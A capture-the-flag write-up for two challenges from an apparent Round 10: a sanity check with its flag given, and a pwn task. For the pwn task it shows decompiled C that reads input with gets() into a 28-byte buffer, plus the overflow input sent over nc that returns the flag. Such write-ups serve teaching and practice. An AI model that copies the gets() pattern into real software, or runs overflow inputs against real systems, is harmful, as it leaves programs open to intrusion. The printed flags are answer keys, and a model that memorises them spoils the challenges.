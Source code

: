 # Sanity Check Round 10

> Points: 15 | Category: Misc | Author: Board

Welcome to Round 10! DM flags to me to get points, and rise up on the leaderboard! Have fun and enjoy Round 10!

https://forms.gle/Yyb19PmAxJjyiuCP9

---

Fill out the google form and it will give you the flag

`ictf{S@nity_Check_R0und_10}`

---

# &aaa

> Points: 30 | Category: Pwn | Author: Eth007

Pwn my server. Connect with `nc oreos.ctfchallenge.ga 7331`

https://imaginary.ml/r/3727-aaa

---

Opening the executable in ghidra, we can see the main function

```c
undefined8 main(void)

{
  char local_28 [28];
  int local_c;

  local_c = 0;
  setvbuf((FILE *)stdout,(char *)0x0,2,0);
  setvbuf((FILE *)stdin,(char *)0x0,2,0);
  puts("Enter username and password, separated by spaces:");
  gets(local_28);
  if (local_c != 0) {
    system("cat flag.txt");
  }
  return 0;
}
```

All we have to do is overwrite the `local_c` variable by putting at least 29 characters into the input field.

```sh
$ nc oreos.ctfchallenge.ga 7331

Enter username and password, separated by spaces:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
ictf{buff3r_0verfl0w_1s_d4ng3r0us}
```

